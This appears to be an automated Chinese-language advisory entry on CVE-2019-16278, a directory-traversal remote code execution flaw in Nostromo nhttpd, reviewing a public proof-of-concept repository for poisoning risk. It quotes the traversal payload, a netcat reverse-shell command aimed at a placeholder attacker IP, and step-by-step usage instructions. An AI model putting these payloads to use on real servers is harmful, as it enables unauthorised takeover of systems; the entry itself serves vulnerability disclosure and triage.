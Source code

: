 ## CVE-2019-16278-Nostromo-1.9.6-RCE

**漏洞编号:** CVE-2019-16278

**漏洞类型:** 目录遍历导致的远程代码执行

**影响应用:** Nostromo nhttpd

**危害等级:** 高危，可被利用进行远程代码执行

**影响版本:** <= 1.9.6

**利用条件:** 需要目标服务器运行存在漏洞的Nostromo nhttpd服务，且攻击者能够发起HTTP请求。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2019-16278是Nostromo nhttpd 1.9.6及更早版本中`http_verify`函数中存在的目录遍历漏洞，允许攻击者通过精心构造的HTTP请求执行远程代码。

**有效性分析：**
根据漏洞库信息、搜索引擎结果和提供的POC代码，该漏洞是有效的。搜索引擎结果中Exploit-DB上也存在相关的利用代码，进一步证实了该漏洞的可利用性。POC代码的描述也表明，该脚本旨在利用此漏洞获得反向shell。

**投毒风险分析：**
提供的POC代码（`poc.py`）主要功能是构造包含目录遍历和命令执行的HTTP请求，并将其发送到目标服务器。代码中使用了`pwntools`库来建立网络连接和发送数据。其中关键部分是payload的构造：`URL = "/.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0"`，这部分通过目录遍历尝试访问`/bin/sh`。`reverse_shell = f"nc {ATTACKER_IP} {ATTACKER_PORT} -e /bin/sh"`，这部分是反向shell的命令，使用`netcat`将目标机器的`/bin/sh`绑定到攻击者的IP和端口。

代码本身没有明显的恶意行为或后门。风险主要来自于使用者是否在授权情况下使用该脚本。`README.md`中也声明了该脚本仅供教育和授权测试使用。

投毒风险评估为10%，主要考虑以下几点：
* 代码的可读性高，逻辑清晰，易于审查。
* 没有发现任何隐藏的恶意代码或后门。
* 代码的目的是为了利用已知的漏洞，而不是植入新的漏洞或后门。
* 风险主要在于使用者滥用该工具。

**利用方式：**
1.  攻击者需要找到运行着存在漏洞的Nostromo nhttpd 1.9.6或更早版本的服务器。
2.  攻击者需要准备一台具有公网IP的机器，并监听一个端口（例如4444）。
3.  攻击者运行提供的POC脚本，指定目标服务器的IP地址和端口，以及攻击者机器的IP地址和监听端口。
    ```bash
    python3 poc.py --target <目标IP> --port <目标端口> --attacker-ip <攻击者IP> --attacker-port <攻击者端口>
    ```
4.  POC脚本会构造一个包含目录遍历和反向shell命令的HTTP请求，并将其发送到目标服务器。
5.  如果漏洞利用成功，目标服务器会执行反向shell命令，将shell绑定到攻击者机器的指定端口。
6.  攻击者可以在攻击者机器上获得一个反向shell，从而控制目标服务器。

**项目地址:** [cancela24/CVE-2019-16278-Nostromo-1.9.6-RCE](https://github.com/cancela24/CVE-2019-16278-Nostromo-1.9.6-RCE)

**漏洞详情:** [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278)
